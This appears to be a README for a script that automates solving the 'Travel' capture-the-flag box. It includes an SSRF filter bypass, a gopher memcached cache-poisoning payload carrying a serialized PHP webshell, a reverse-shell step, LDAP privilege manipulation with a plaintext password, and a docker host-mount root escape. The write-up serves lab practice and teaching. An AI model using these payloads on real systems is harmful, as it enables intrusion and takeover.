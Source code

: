 # Automated Script to complete the Travel box

## User Details:    
* We enumerate the initial set of entry points on the web side
* TLS/SSL certificate contains a list of domains
* We enumerate more on the domains
* We find that .git is exposed on a dev subdomain
* We can use [gittools] (https://github.com/internetwache/GitTools.git) to pull the contents
* Contents are a readme file, and two PHP scripts
* Reading through PHP code, we get a better idea of what is being built for the website
* RSS functionality is in development, and we can specify a RSS feed to the application by supplying a custom_feed_url
* Simplepie is used for retrieving/caching content. Reading through simplepie we learn how objects are cached/retrieved in memcached (https://github.com/WordPress/WordPress/blob/master/wp-includes/SimplePie/Cache.php#L83)
* The contents are cached in memcached and serialized in a PHP object
* There is an interesting class, "TemplateHelper" that looks like a viable target. On initialization it writes the contents into /logs
* We notice that there are protections against SSRF, command injection, etc 
* However, the SSRF check is weak, and we can get by it by specifying "Localhost:11211" or "0x7f000001:11211"
* The [Orange Tsai presentation]  (https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) provides us with how we could attack the application using SSRF

### Attack Path
* Therefore the attack path is: We can execute SSRF on memcached, force a key value pair into memcached, then have it deserialize our payload, so that it writes into /logs
* There are some constraints however, as the memcached key is xct_<md5>
* The memcached key is derived from the supplied URL in custom_feed_url
* From reading through SimplePie code, we see that the format of the <md5> value is md5(md5(url) + ":scp")
* We test out whether we can properly determine the MD5 value by supplying a known url (e.g. http://ourhost/rss.xml) then computing the md5 hash as mentioned above
* Once we make a call to the application with custom_feed_url=http://ourhost/rss.xml , we can call http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php to view the key/value pair stored in memcached
* Once we are able to verify that we can determine the memcached key correctly, our goal now is to inject our serialized object into the value of the memcached key

* Our php code will be: 
```
<?php
class TemplateHelper{
        public $file = 'ganapati.php';
        public $data = '<?php system($_GET["c"]);?>';
}

echo serialize(new TemplateHelper);

?>
```
* It will generate output:
`O:14:"TemplateHelper":2:{s:4:"file";s:12:"ganapati.php";s:4:"data";s:27:"<?php system($_GET["c"]);?>";}`

* We can use [Gopherus] (https://github.com/tarunkant/Gopherus) to help generate the payload
* In a nutshell we want to use SSRF to send gopherus://Localhost:11211/_%0d%0a<payload>. For example:
```
gopher://127.0.0.1:11211/_
set SpyD3r 4 0 133
O:14:"TemplateHelper":2:{s:4:"file";s:12:"ganapati.php";s:4:"data";s:27:"<?php system($_GET["c"]);?>";}

```

* As we notice, the key is hardcoded in gopherus, so we have to make modifications so that we're referring to the implementation that the web application expects... e.g. xct_<md5value>



### Automated User
* The automated script will handle computing the md5 hash to match the expected xct_<md5hash> memcached key
* Invoke SSRF with our payload to poison the cache with our serialized PHP object
* Invoke a request to deserialize the payload (in this case we are using a simple PHP webshell)
* Invoke the webshell contained within the /logs directory and send a reverse shell payload
* Set up a listener to catch the reverse shell
* Switch to interactive mode

Running the script with -t user
 ![Automated User Flag](./images/autouser.PNG "User Step")

 
## Root Details:
* After we gain a user shell, we have to crack a credential discovered in a .sql script the /opt/wordpress directory
* Then we can SSH into the box as lynik-admin
* Enumerating the home directory of lynik-admin reveals interactions with LDAP, along with a BINDDN <password> entry in .viminfo
* Using commands to view the contents of LDAP:
`ldapsearch -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -b "dc=travel,dc=htb"`
* We noticed lynik-admin is an administrator of LDAP
* We can run commands to try to modify an entry 
`ldapmodify -x -w Theroadlesstraveled -D cn=lynik-admin,dc=travel,dc=htb"` 
* Upon viewing sshd_config we notice only lynik-admin and trvl-admin can log in over ssh with a password. Other users require a SSH keypair
* Also through enumeration, we notice there is a docker group
* The attack path we used here is: Modify an LDAP entry to include our SSH public key, and modify the LDAP entries to reflect trvl-admins UID, and force the user into the docker group


### Automation root
* Generate a RSA Keypair with:
`ssh-keygen -m PEM -p -t rsa -C "test@test.com"`
* ldapmodify will be called to modify the LDAP entry for user lynik and change uid to 1000 (trvl-admin)
* ldapmodify will be called to modify the LDAP entry for user lynik and change gid to 117 (docker)
* ldapmodify will be called to modify the LDAP entry for user lynik and add a SSH public key entry
* SSH into the box using public key auth
* Call docker and spawn a container that mounts the host filesystem
`docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh`

Running the script with -t root
![Automated root Flag](./images/autoroot.PNG "Root Step")
